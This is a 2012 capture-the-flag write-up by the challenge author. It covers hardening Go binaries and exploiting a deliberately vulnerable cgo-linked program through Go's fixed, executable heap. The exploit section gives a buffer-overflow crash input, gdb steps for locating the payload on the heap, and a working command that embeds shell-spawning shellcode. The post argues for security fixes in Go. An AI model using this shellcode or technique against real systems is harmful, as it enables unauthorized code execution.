 ```yaml
---
title: Securing and Exploiting Go Binaries
author: awreece
layout: post
categories:
  - Report
  - Write-Ups
tags:
  - go
  - golang
  - pCTF 2012
---
```

### Introduction

I have spent some time over the past month or so trying to use Go binaries in a secure manner and trying to exploit Go binaries and I thought it would be useful if I talked a little bit about my journey. 

First, I have been working in Go for about a year now. As part of this years pCTF, I created a problem that involved exploiting a Go binary (binary and source [here][1]). I consequently had to deal with securing the binary to prevent leaking unnecessary information and had some fun playing around with exploiting a Go binary. 

<!--more-->

### Securing a Go Binary

Creating a secure, production-ready Go binary was more challenging than expected. By default: 

  * The Go build tools include the full path to the source on the build machine in the binary. 
  * Go binaries helpfully print the faulting address and instruction on segmentation faults.
  * The heap in Go is loaded at a fixed address and is executable.
  * Go binaries are linked with full debug information.

I filed a [issue][2] suggesting the option for a compiler flag to create a hardended binary, but there has not been much interest in that yet. 

Some of these problems can be mitigated with appropriate hacks. The path to the Go runtime can be changed by setting the environment variable <tt>GOROOT_FINAL</tt> before running <tt>all.bash</tt> (see [this comment][3] on the issue I filed). For user code, it takes some more work: I had to deep copy all of my source into a <tt>/tmp/build</tt> directory before compiling so that the only string was a <tt>"/tmp/build"</tt> rather than the actual path. 

Some debug information can be stripped by passing <tt>-s</tt> as a command line to the linker (for example, <tt>go build -ldflags "-s" prog.go</tt>). Note that this does not remove file paths, etc from the binary. It is pretty easy to patch the Go runtime to avoid printing the faulting address and instruction, but that should probably take the form of a real change rather than a quick and dirty patch. Unfortunately, the heap to be seems executable and loaded into fixed location by design (so that closures are easier and that heap addresses do not overlap with valid unicode strings, making the garbage collector easier), so it is not clear that that will be fixed for anytime soon. 

### Exploiting a Go program

#### Disclaimer

First things first &#8211; I did *not* find an exploit in the Go runtime that gave code execution. Instead, I linked the Go binary to a cgo library that had an intentional vulnerability. I had to do some work to make the cgo library exploitable. I made an explicitly vulnerabile C program and specified flags <tt>-fno-stack-protector -U_FORTIFY_SOURCE</tt> to discard modern protections. Lastly, the behavior I performed in cgo (printing a string to stdout) could have trivially been perfomed in pure Go. 

However, I personally feel like Go packages use the unsafe package or are linked against full C libraries commonly enough (consider banthars [package][4] with Go bindings for OpenGl or a [variety][5] of other packages) that it is irresponsible for the Go runtime to be poorly secured out of the claim that there are no vulnerabilies in Go. Furthermore, the Go runtime should be better secured to avoid the damage from any as of yet undiscovered vulnerabilities in the Go runtime. 

Going forward, I will assume that there is a vulnerability (introduced possibly by a vulnerable C library) and will focus on one interesting way to exploit it by using the Go runtime. I will specifically focus on the [<tt>webapp</tt>][6] problem used in pCTF. 

#### The actual exploit

The Go runtime has some really interesting properties that make it fun to exploit:

  * The heap is executable.
  * The heap is deterministic and in a fixed location every run
  * Immutable strings tend to end up on the heap

We will construct an exploit that takes advantage of all of these properties. First, we get get a vulnerability that gives us a crash. 

<pre>$ ./webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
unexpected fault address 0x42424242
throw: fault
[signal 0xb code=0x1 addr=0x42424242 pc=0x42424242]

goroutine 1 [syscall]:
levellog._Cfunc_Log(0xb736e0b0, 0xb736e0c8)
	/tmp/go-build279009652/levellog/_obj/_cgo_defun.c:50 +0x32
levellog.Log(0x1, 0x1883cd00, 0x7f)
	/tmp/go-build279009652/levellog/_obj/log.cgo1.go:126 +0x140
main.main()
	/tmp/build/src/webapp/main.go:21 +0x101

goroutine 2 [syscall]:
created by runtime.main
	/usr/local/src/go/src/pkg/runtime/proc.c:221</pre>

Now that we have code execution (and we know the vulnerable function due to the helpful stack trace), we <tt>objdump</tt> the function and put a breakpoint before returning to our clobbered return address.

<pre>080624d0 &lt;Log&gt;:
 80624d0:       81 ec 9c 00 00 00       sub    $0x9c,%esp
 80624d6:       8b 84 24 a4 00 00 00    mov    0xa4(%esp),%eax
 80624dd:       89 9c 24 94 00 00 00    mov    %ebx,0x94(%esp)
 80624e4:       e8 4f 00 00 00          call   8062538 &lt;__i686.get_pc_thunk.bx&gt;
 80624e9:       81 c3 17 7b 25 00       add    $0x257b17,%ebx
 80624ef:       89 b4 24 98 00 00 00    mov    %esi,0x98(%esp)
 80624f6:       8d 74 24 10             lea    0x10(%esp),%esi
 80624fa:       89 44 24 0c             mov    %eax,0xc(%esp)
 80624fe:       8b 84 24 a0 00 00 00    mov    0xa0(%esp),%eax
 8062505:       89 34 24                mov    %esi,(%esp)
 8062508:       89 44 24 08             mov    %eax,0x8(%esp)
 806250c:       8d 83 00 c3 f2 ff       lea    -0xd3d00(%ebx),%eax
 8062512:       89 44 24 04             mov    %eax,0x4(%esp)
 8062516:       e8 ad 6c 25 00          call   82b91c8 &lt;sprintf@plt&gt;
 806251b:       89 34 24                mov    %esi,(%esp)
 806251e:       e8 b5 6c 25 00          call   82b91d8 &lt;puts@plt&gt;
 8062523:       8b 9c 24 94 00 00 00    mov    0x94(%esp),%ebx
 806252a:       8b b4 24 98 00 00 00    mov    0x98(%esp),%esi
 8062531:       81 c4 9c 00 00 00       add    $0x9c,%esp
 8062537:       c3                      ret</pre>

<pre>$ gdb webapp
GNU gdb (Ubuntu/Linaro 7.3-0ubuntu2) 7.3-2011.08
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
...
Reading symbols from /tmp/build/webapp...done.
Loading Go Runtime support.
(gdb) b *0x8062537
Breakpoint 1 at 0x8062537</pre>

We run our exploit again, and then search the heap for our string (we know that the heap is always in the range <tt>[0x18600000, 0x18900000]</tt> for this binary since Go has a deterministic heap). 

<pre>(gdb) run --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
Starting program: /tmp/build/webapp --loglevel=2 --logfmt="AAAAAAAAA%8d" --address=":$(perl -e 'print "A"x109, "BBBB"')"
[Thread debugging using libthread_db enabled]
[New Thread 0xb7ccbb70 (LWP 7869)]
AAAAAAAAA       1Listening on :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x08062537 in Log ()
(gdb) x/a $esp
0xbffff1ac:	0x42424242
(gdb) find 0x18600000, 0x18900000, 0x42424242
0x1883cd7b</pre>

So now we know that our string, which is <tt>:AAAA...AAAABBBB</tt>, is located at <tt>0x1883cd7b - 4 - 109 = 0x1883cd0e</tt> on the heap. (Note &#8211; this is because string concatenations put strings onto the deterministic heap). But then we are done! We change string to include shell code, and then use our control flow control to jump to it.

<pre>$ ./webapp -loglevel=100 -logfmt=AAAAAAAAA%8d -address="$(perl -e ' print ":\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0e\xcd\x83\x18"')"
AAAAAAAAA       1Listening on :j
                                Xï¿½Rfh-pï¿½ï¿½Rjhh/bash/binï¿½ï¿½RQSï¿½ï¿½Í€AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÍƒ
$</pre>

Success! 

### Postmortem

This exploit is interesting for a number of reasons. First of all, it works on any (32 bit) machine running the same version of Go as the attacker. This is because heap allocations end up being quite deterministic. Next, this type of exploit (jump to an object on the executable heap, such as a string put there via a string concatenation) is something that would be easy to replicate in a variety of Go binaries. Lastly, the executable heap offers an easy surface for heap sprays and other attacks. It is also easy to imagine an expoit that uses a heap overwrite to clobber a closure and get code execution. 

It is also important to note that, while the vulnerability is introduced through C code, common C protections such as NX, ASLR, and libc randomization would make this binary very difficult to exploit without the use of the weak Go runtime. I wish to repeat: *this binary is easily exploitable because it is a Go binary*, even assuming ASLR, NX, and libc randomization. 

I firmly believe that Go should consider randomizing its heap and making it no longer executable. I also think that it is imperative to provide a compiler option that hardens the binary by disabling the printing of debugging information (stack traces, faulting addresses) on program crashes and stripping debugging / package information from the binary. 

### Go Community Response

For anyone who is interested, the Go community&#8217;s response is [here][7]. In summary: vulnerabilities in Go are extremely unlikely so the engineering/complexity overhead required to implement any of these protections is not worth it. I respectfully disagree &#8211; vulnerabilities can come from cgo libraries or from as of yet unknown bugs in the Go runtime itself. Furthermore, I suspect that adding ASLR or NX would not require very much effort. 

### Other writeups

There are writeups of this problem available by:

  * [Eindbazen][8] (C style return to libc exploit)
  * [w3stormz][9] (Go heap exploit, in French)

### tl;dr

Go binaries are compiled with a lot of debug info, which some people might want to strip. The Go heap is executable and deterministic, making the exploitation of the pCTF Bunyan problem relatively straightforward. 

<span style="display:none;">Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google</a>+.</span>

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/bunyan-wp.tar.gz
 [2]: http://code.google.com/p/go/issues/detail?id=3467
 [3]: http://code.google.com/p/go/issues/detail?id=3467#c4
 [4]: https://github.com/banthar/gl
 [5]: http://go-lang.cat-v.org/library-bindings
 [6]: webapp
 [7]: http://groups.google.com/group/golang-nuts/browse_thread/thread/25df6d94d73a8d41
 [8]: http://eindbazen.net/2012/05/plaid-ctf-2012-bunyan/
 [9]: http://www.bases-hacking.org/bunyan-plaidctf2012.html